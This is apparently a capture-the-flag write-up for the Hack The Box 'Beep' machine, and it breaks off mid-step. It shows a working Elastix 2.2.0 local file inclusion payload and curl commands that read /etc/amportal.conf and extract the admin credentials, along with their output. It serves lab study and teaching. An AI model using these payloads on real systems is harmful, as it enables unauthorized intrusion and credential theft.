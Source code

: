 
# Initial Foothold - 1

## TCP/443 (HTTPS) - Elastix 2.2.0 LFI to obtain creds
1. `https://beep.htb` is running `Elastix` Server
	![]({{ page.img_path }}Pasted%20image%2020220823010125.png)
	- Tried to look for version in the source code, failed
2. Search exploits for `Elastix` w/ `searchsploit`
	
	| Exploit Title                                          | Path                  |
	| ------------------------------------------------------ | --------------------- | 
	| Elastix 2.2.0 - 'graph.php' Local File Inclusion       | php/webapps/37637.pl  |  
	| Elastix 2.x - Blind SQL Injection                      | php/webapps/36305.txt |  
	| Elastix < 2.5 - PHP Code Injection                     | php/webapps/38091.php |  
	| FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution |       php/webapps/18650.py|
	
	- We can ignore the `XSS` exploits
	- There are only 4 exploits, we can try them all
3. Try `php/webapps/37637.pl` 
	1. This exploit allows you to do local file inclusion due to the lack of user input sanitization.
	2. Payload
		```
		...
		File: 37637.pl
		#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
		...
		```
		- This will include `/etc/amportal.conf` where login creds resides
	3. Exploit
	![]({{ page.img_path }}Pasted%20image%2020220823011249.png)
	4. Obtain passwords
		```
		┌──(root💀kali)-[~/htb/beep/10.10.10.7/exploit]
		└─# curl -sk 'https://beep.htb//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action' | head -n 40 | tail -n 11 | grep PASS | cut -d '=' -f2  | sort | uniq > password.txt
		amp109
		amp111
		jEhdIekWmdjE		
		```
	5. Obtain usernames
		```
		┌──(root💀kali)-[~/htb/beep/10.10.10.7/exploit]
		└─# curl -sk 'https://beep.htb//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action' | head -n 40 | tail -n 11 | grep USER | cut -d '=' -f2  | sort | uniq > username.txt
		admin
		asteriskuser
		```
	6. Bruteforce w/ `burpsuite`
		![]({{ page.img_path }}Pasted%20image%2020220823013753.png)
	7. Results
		![]({{ page.img_path }}Pasted%20image%2020220823013846.png)
		- `admin:jEhdIekWmdjE`
		- Not really useful because it does not lead to RCE
	8. Obtain users on the system by including `/etc/passwd`
		```